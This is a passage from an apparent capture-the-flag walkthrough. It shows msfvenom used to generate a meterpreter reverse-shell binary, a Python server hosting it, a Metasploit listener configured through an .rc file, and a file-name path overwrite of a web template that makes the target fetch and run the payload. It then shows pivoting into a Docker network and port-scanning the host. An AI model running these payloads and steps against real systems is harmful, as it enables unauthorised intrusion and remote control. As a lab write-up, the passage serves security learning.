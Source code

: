 I am using metasploit here for some practice with and the convenience it offers, but this could be done just as easily with a standard reverse shell payload. "rev" is a msfvenom binary I generated to give me a meterpreter shell. After this I started up a python http server on port 9090  in the same directory to host it so my payload will reach out and execute it

```shell
> msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f elf -o rev

... SNIP

> python3 -m simple.http 9090
```

Now I start up metasploit and setup my listener
```shell
msfconsole -r ~/msfrc/linux_x86_meterpreter_staged.rc
```

I am using an .rc file here to automate setting up my listener, this option will automatically submit these commands upon starting metasploit.

```shell
> cat ~/msfrc/linux_x86_meterpreter_staged.rc       
use multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 443
run -j
 
```

Now all that is left is to upload the template and trigger the exploit. I upload success.html and intercept with burp as shown above to change the file_name to the absolute path of  `/app/app/templates/success.html` . On a successful upload the page automatically navigates to our now malicious `success.html` and triggers our command. Our rev binary is retrieved and executed, granting us a meterpreter shell

## User
With basic enumeration nothing stands out immediately. It is a docker container as we suspected. I remembered the port 3000 service that was filtered from earlier. It wasn't running locally so I tried other hosts in the docker network.

```bash
meterpreter > run autoroute -s 172.17.0.0/24
```

portscan 172.17.0.1 (determined this to be main host)

rhosts => 172.17.0.1
```shell
msf6 auxiliary(scanner/portscan/tcp) > set rhosts 172.17.0.1
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.17.0.1: - 172.17.0.1:22 - TCP OPEN
[+] 172.17.0.1: - 172.17.0.1:80 - TCP OPEN
[+] 172.17.0.1: - 172.17.0.1:3000 - TCP OPEN
```

